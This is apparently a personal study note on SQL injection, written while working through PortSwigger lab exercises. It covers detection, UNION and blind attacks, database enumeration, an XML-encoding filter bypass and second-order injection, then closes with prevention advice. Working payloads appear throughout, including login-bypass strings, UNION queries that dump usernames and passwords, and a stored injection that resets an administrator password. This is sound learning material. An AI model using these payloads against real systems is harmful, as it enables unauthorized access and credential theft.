





#SQL-injection #sql
A vulnerability allowing an attacker to interfere with the queries made between the web application & the database.

## Detecting SQLi:
Identify query parameters/database operations, and spray/inject with known payload lists, or scan with Burp Scanner. For manual injection, try:
- The single quote character `'` and look for errors or other anomalies. Comments `--` are useful too. Spray to determine database type, if unknown.
- Boolean conditions such as `OR 1=1` and `OR 1=2`
- Payloads designed to trigger time delays when executed within a SQL query (`SLEEP`) and look for differences in the time taken to respond.
- Sending **[Out-of-band application security testing (OAST)](https://portswigger.net/burp/application-security-testing/oast)** payloads within the SQL query, that causes an interaction with an external system we have control over that sits outside the target domain.
	- E.g. injecting a Burp collaborator payload into an injection point.
	  
- Some SQL-specific syntax that evaluates to the base (original) value of the entry point, and to a different value, and look for systematic differences in the application responses.

#### Cheatsheets:
- Refer to [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) on specific syntax
- https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet
- https://github.com/payloadbox/sql-injection-payload-list

---

## SQLi Types:
- [Retrieving hidden data](https://portswigger.net/web-security/sql-injection#retrieving-hidden-data), where you can modify a SQL query to return additional results. 
	- e.g. `' OR 1=1 --` --> 
```SQL
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```
- [Subverting application logic](https://portswigger.net/web-security/sql-injection#subverting-application-logic), where you can change a query to interfere with the application's logic.
	- e.g. `admin'--`
```SQL
SELECT * FROM users WHERE username = 'administrator'-- AND password = 'bluecheese'
```
- [UNION attacks](https://portswigger.net/web-security/sql-injection/union-attacks), where you can retrieve data from different database tables by executing one or more additional `SELECT` queries and appending the results to the original query.
``` SQL
SELECT name, description FROM products WHERE category = 'Gifts' UNION SELECT username, password FROM users--
```
The individual queries must **(1) return the same number of columns**, and **(2) the column data types must be compatible between the individual queries.** Can enumerate this with queries like `' UNION SELECT NULL,'a',NULL--` until an error is thrown.

- [Blind SQL injection](https://portswigger.net/web-security/sql-injection/blind), where the results of a query you control are not returned in the application's responses. Often combined with:
	- Time delays (infer the truth of the condition based on response time)
	- OAST-based out-of-band network interactions (place the data into a DNS lookup for a domain that you control.)

### Lab: Retrieving Hidden Data:
*Check for parameters indicating data classification/type, like `released=1`*
Use **always true statements** (`' OR 1=1`) and **then comments (`--`)** to attempt to bypass logic checks & comment out the rest of the query, to view hidden/unreleased data.
- `' OR 1=1 --` (URL-encoded)
E.g. with `https://insecure-website.com/products?category=Gifts'+OR+1=1--`...
``` SQL
-- Original Query
SELECT * FROM products WHERE category = 'Gifts' AND released = 1

-- ... is turned into this:
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1

-- or this, with -- :
SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

```

***Take care when injecting the condition `OR 1=1` into a SQL query. Even if it appears to be harmless in the context you're injecting into, it's common for applications to use data from a single request in multiple different queries. If your condition reaches an `UPDATE` or `DELETE` statement, for example, it can result in an accidental loss of data.***

### Subverting Application Logic:

**Bypasssing login:**
- Using the SQL comment sequence `--` to remove the password check from the `WHERE` clause of the **query**
##### Common injections:
- `administrator'--`
- `admin' OR 1=1 --`
- [Auth bypass payloads](https://github.com/payloadbox/sql-injection-payload-list?tab=readme-ov-file#sql-injection-auth-bypass-payloads)

``` SQL
-- Original Query:
SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'
-- Query with injected comment:
SELECT * FROM users WHERE username = 'administrator'-- AND password = 'bluecheese'
```

---

## Examining the Database:
- Find DB version & type. May need to combine with `UNION` attacks to execute additional queries on different tables, e.g. `' UNION SELECT @@version--`

| Database Type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |

- Identify what tables exists/info on the columns: e.g. `SELECT * FROM information_schema.tables`
  `SELECT * FROM information_schema.columns WHERE table_name = 'Users'`
- Dump info from all tables/columns:
  `SELECT * FROM all_tables`
- Refer to [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) on specific syntax

1. **Determine number of columns** with `' ORDER BY 1--`, `' ORDER BY 2--`, etc., until we get an `Internal Server Error` at `' ORDER BY n`. Thus, can infer that we have `n-1` columns. Can also infer from application itself, but often has hidden columns so is **less reliable.**: 
2. **Determine Data Type:** Repeat (for `t` columns) `' UNION SELECT 'a', 'a'--`. Based on errors, can determine what type (text, integers, etc.) to craft further queries.
   Some database types (e.g. Oracle) will need a table specified, like `' UNION SELECT 'a', 'a' FROM DUAL --` (special dummy table). **Look up based on vendor.**
3. **Determine database version:** Based on [cheatsheet](portswigger.net/web-security/sql-injection/cheat-sheet), Oracle database version is `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--` (Need `NULL` to pad second column, as we identified `n=2`)
**Microsoft/MySQL version:** using `#` or `%23`.
`Gifts'+ORDER+BY+3%23` ... etc.
`Gifts'+UNION+SELECT+@@version,+NULL%23`

### Listing Database contents (non-Oracle)
Most databases (**excluding Oracle**) have #information-schemas which provide info about the database. Can be accessed with:
- `SELECT * FROM information_schema.columns WHERE table_name = 'x'`

#### Lab: SQL injection attack, listing the database contents on non-Oracle databases
- **Determine # of columns**: `2` (`' ORDER BY 1--`, etc.). **Infer non-Microsoft (which uses `#` not `--`)**
- **Determine database type**: placing various `version` calls in `UNION` statement with `2` columns: `'+UNION+SELECT+version(),+'a'--` 
- **Can list tables** in the `information_schema` view by appending `FROM information_schema.tables`: 
  `' UNION SELECT table_name, 'a' FROM information_schema.tables--` - revealed Table `users_xy`.
- **Then list columns in chosen table**: `' UNION SELECT column_name, 'a' FROM information_schema.columns WHERE table_name='users_cqylyz'--`
  
- **Then list data** from the table: `' UNION SELECT username_mpsxxz, password_zxnihx FROM users_cqylyz--`
  

### Listing Database contents (Oracle)
For Oracle databases:
- You can **list tables** by querying `all_tables`:
    `SELECT * FROM all_tables`
- You can **list columns** by querying `all_tab_columns`:
    `SELECT * FROM all_tab_columns WHERE table_name = 'USERS'`

#### [Lab](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-listing-database-contents-oracle): SQL injection attack, listing the database contents on Oracle
1. **Determine # of columns:** `2` (`' ORDER BY 1--`, etc.). **Infer non-Microsoft (which uses `#` not `--`)**
2. **Determine database type:** `' UNION SELECT BANNER, NULL FROM v$version--` - Oracle Database
3. *Oracle Quirk* **List tables:** `' UNION SELECT table_name, NULL FROM all_tables--` --> found USERS_MFXKTH
4. *Oracle quirk* **List columns in table:** `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'USERS_MFXKTH'--` - found user/pw columns
5. **List data:** `' UNION SELECT USERNAME_LDJJRQ, PASSWORD_ZHGBIT FROM USERS_MFXKTH--` 
   

---
## SQLi in Different Contexts
Don't limit to query strings: can use any controllable input (`XML, JSON`) that is processed as a SQL query.
- May bypass **filters for common SQLi keywords** by **encoding or escaping characters** in prohibited keywords. 
  e.g. an XML escape sequence for the `S` in `SELECT`, which is decoded server-side before being passed to SQL interpreter: 

#### [Lab](https://portswigger.net/web-security/sql-injection/lab-sql-injection-with-filter-bypass-via-xml-encoding): SQL injection with filter bypass via XML encoding
- See there is a WAF blocking specific SQL queries.
- Use [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100)to encode/decode text on the fly, and test both parameters. `store_id` seems to return data when injected into (as opposed to "`0 Units`", implying an errored server state.) 
  **Find # of columns:** `ORDER BY 1` returns data (higher numbers error out), so `1` table.
- **Find database type:** PostgreSQL 
- **Find table names:** `UNION SELECT table_name FROM information_schema.tables` - "users"
- **Find columns in desired table:** `UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'` - "username", "password"
- **Find data in table:** As can only return one column, must **concatenate the returned usernames** and passwords with `UNION SELECT username || ': ' || password FROM users` 

---

## Second-order/Stored SQLi
When an app takes input from a HTTP request and stores it for future use, and after a future/different HTTP request the data is retrieved & incorporated unsafely into a SQL query.
- Often when data is safely handled initially, but not upon subsequent reference (as is assumed trusted)
E.g. setting password as "`'letmein' where user='administrator'--`", and when it's stored, runs query:
``` sql
select * from user_options where user= 'badguy'; update users set password='letmein' where user='administrator'--
```
... which **changes administrator user's password.**

---

## Preventing SQLi:
- **Use parameterised queries/prepared statements** instead of string concatenation in queries where **untrusted input appears as data** (e.g. in `SELECT`, `UPDATE`, `INSERT` etc.)
- For other parts of the application (e.g for table/column names or `ORDER BY` clauses).must instead **whitelist permitted input values** or **use different logic to deliver the required behaviour**

  


